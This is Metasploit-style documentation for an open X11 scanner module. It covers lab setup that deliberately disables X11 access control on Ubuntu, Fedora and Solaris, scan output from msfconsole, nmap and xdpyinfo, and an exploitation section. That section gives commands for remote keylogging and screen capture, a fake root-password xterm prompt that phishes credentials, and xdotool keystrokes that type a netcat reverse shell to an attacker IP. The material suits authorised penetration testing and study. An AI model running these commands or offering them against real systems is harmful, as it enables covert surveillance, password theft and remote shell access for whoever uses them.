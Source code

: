 ## Vulnerable Application

X11 (X Window System) is a graphical windowing system most common on unix/linux, although implementations may be found in windows
with software such as Hummingbird Exceed X Server.  The service can accept connections from any users when misconfigured
which is done with the command `xhost +`.

### Ubuntu 10.04

1. `sudo nano /etc/gdm/gdm.schemas`
2. Find:

    ```
    <schema>
     <key>security/DisallowTCP</key>
     <signature>b</signature>
     <default>true</default>
    </schema>
    ```
  - Change `true` to `false`

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 12.04, 14.04

1. `sudo nano /etc/lightdm/lightdm.conf`
2. Under the `[SeatDefaults]` area, add:

    ```
    xserver-allow-tcp=true
    allow-guest=true
    ```

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```        	
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 16.04

  Use the Ubuntu 12.04 instructions, however change `SeatDefaults` to `Seat:*`

### Fedora 15

1. `vi /etc/gdm/custom.conf`
2. Under the `[security]` area, add:

    ```
    DisallowTCP=false
    ```

3. logout/reboot
4. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Solaris 10

1. `svccfg -s svc:/application/x11/x11-server setprop options/tcp_listen = true`
2. `svc disable cde-login`
3. `svc enable cde-login`
4. `xhost +`

## Verification Steps

  1. Install and configure X11
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/x11/open_x11`
  4. Do: `set rhosts [IPs]`
  5. Do: `run`

## Scenarios

  A run against Ubuntu 14.04 (192.168.2.75), Ubuntu 16.04 (192.168.2.26), and Solaris 10 (192.168.2.32)

  ```
    msf > use auxiliary/scanner/x11/open_x11 
    msf auxiliary(open_x11) > set rhosts 192.168.2.75 192.168.2.26
    rhosts => 192.168.2.75 192.168.2.26
    msf auxiliary(open_x11) > run
    
    [+] 192.168.2.75:6000     - 192.168.2.75 Open X Server (The X.Org Foundation)
    [*] Scanned 1 of 3 hosts (33% complete)
    [+] 192.168.2.26:6000     - 192.168.2.26 Open X Server (The X.Org Foundation)
    [*] Scanned 2 of 3 hosts (66% complete)
    [+] 192.168.2.32:6000     - 192.168.2.32 Open X Server (Sun Microsystems, Inc.)
    [*] Auxiliary module execution completed
  ```

## Confirming

The following are other industry tools which can also be used.

### [nmap](https://nmap.org/nsedoc/scripts/x11-access.html)

```
# nmap -p 6000 --script=x11-access 192.168.2.26,75

Starting Nmap 7.40 ( https://nmap.org ) at 2017-04-23 13:15 EDT
Nmap scan report for ubuntu-desktop-16 (192.168.2.26)
Host is up (0.0021s latency).
PORT     STATE SERVICE
6000/tcp open  X11
|_x11-access: X server access is granted
MAC Address: 00:0C:29:60:27:F9 (VMware)

Nmap scan report for ubuntu-desktop-14 (192.168.2.75)
Host is up (0.0021s latency).
PORT     STATE SERVICE
6000/tcp open  X11
|_x11-access: X server access is granted
MAC Address: 00:0C:29:0E:C4:6E (VMware)
```

### xdpyinfo

This is one of the standard linux tools to get info on an X display.

```
# xdpyinfo -display 192.168.2.75:0 | head -n 5

name of display:    192.168.2.75:0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    11803000
X.Org version: 1.18.3
```

## Exploitation

Exploiting this mis-configuration has several methods.  The target can have their display viewed, keystrokes logged, and potential keyboard typed.

### Keylogging

To keylog the remote host, we use a tool called [xspy](http://tools.kali.org/sniffingspoofing/xspy)

`xspy -display [ip]:0`

### Screen Monitoring

#### Entire Display

It is possible to monitor the entire display (all windows) and view the content.

 - Take a screenshot: `xwd -root -display [ip]:[display] -out xdump.xdump`
 - View screenshot: `display xdump.xdump` or `xwud -in xdump.xdump`

#### Specific Window

To monitor only a single window (a terminal for instance)

First, we need to determine which windows are available and what their processes are:

 - `xwininfo -tree -root -display [ip]:0`
 
Once you determine which window you want to monitor, you'll want to use the `windowID`.  Now use the application `xwatchwin`

 - `xwatchwin [ip]:0 -w [windowID]`

### Social Engineering

Obviously watching keystrokes is good, but we want to coax the user into providing their password.  We can do this by using xterm to display a login box to the user.

This was tested against Ubuntu 12.04, 14.04, 16.04 and Solaris 10.

1. start `xspy`
2. `xterm -T "Root Permission Required" -display [ip]:0 -e "echo -n 'root password: '; read passwd; echo 'Authentication Failure'; echo -n 'root password: '; read passwd"`
  - Notice it asks twice for the password incase of a mistyped initial password.  This can also be adjusted to just say password or the real user's username
  - The victim's typed text by the user will not be masked (`*`)

### Direct Exploitation

Use `exploits/unix/x11/x11_keyboard_exec`

### Typing Commands

Similar to the method `exploits/unix/x11/x11_keyboard_exec` uses, its possible to use `xdotool` to run commands on the remote system.

To install `xdotool` on kali simply run `apt-get install xdotool`

Now, you can directly interact by typing commands (which appear on the users screen), an example would be running xterm and launching netcat.

For this scenario we run a simple reverse netcat to 192.168.2.9:80

```
xdotool key alt+F2
xdotool key x t e r m
xdotool key KP_Enter
xdotool key n c space 1 9 2 period 1 6 8 period 2 period 9 space 8 0 space minus e space slash b i n slash b a s h KP_Enter
```